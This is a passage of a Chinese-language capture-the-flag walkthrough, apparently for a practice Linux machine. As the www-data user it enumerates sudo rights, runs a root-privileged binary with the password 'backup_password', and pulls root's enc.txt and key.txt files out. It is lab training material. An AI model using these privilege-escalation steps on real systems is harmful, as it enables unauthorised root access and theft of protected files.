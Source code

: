 ## 运行enc得到密文enc.txt \& 密钥key.txt


提示我们enc的密码是backupa\_password enc是我们sudo \-l查看www\-data用户权限时看到的一个文件



```
www-data@ubuntu:/opt/backup/server_database$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (root) NOPASSWD: /home/saket/enc

```

cd到/home/saket目录，再执行enc（直接执行绝对路径会报错）



```
www-data@ubuntu:/home/saket$ ./enc  
./enc
enter password: backup_password
good
/bin/cp: cannot stat '/root/enc.txt': Permission denied
/bin/cp: cannot stat '/root/key.txt': Permission denied

```

没什么反应，看到有个报错权限不够，加个sudo试试



```
www-data@ubuntu:/home/saket$ sudo ./enc
sudo ./enc
enter password: backup_password
good


```

还是没反应，重新ls发现多出来enc.txt 和 key.txt原来是运行enc后，帮我们从/root下拿出来了这两个txt文件



```
www-data@ubuntu:/home/saket$ ls -lah
ls -lah
total 44K
drwxr-xr-x 2 root root 4.0K Dec  6 23:23 .
drwxr-xr-x 4 root root 4.0K Aug 29  2019 ..
-rw------- 1 root root   20 Aug 31  2019 .bash_history
-rwxr-x--x 1 root root  14K Aug 30  2019 enc
-rw-r--r-- 1 root root  237 Dec  6 23:23 enc.txt
-rw-r--r-- 1 root root  123 Dec  6 23:23 key.txt
-rw-r--r-- 1 root root   18 Aug 29  2019 password.txt
-rw-r--r-- 1 root root   33 Aug 31  2019 user.txt


```
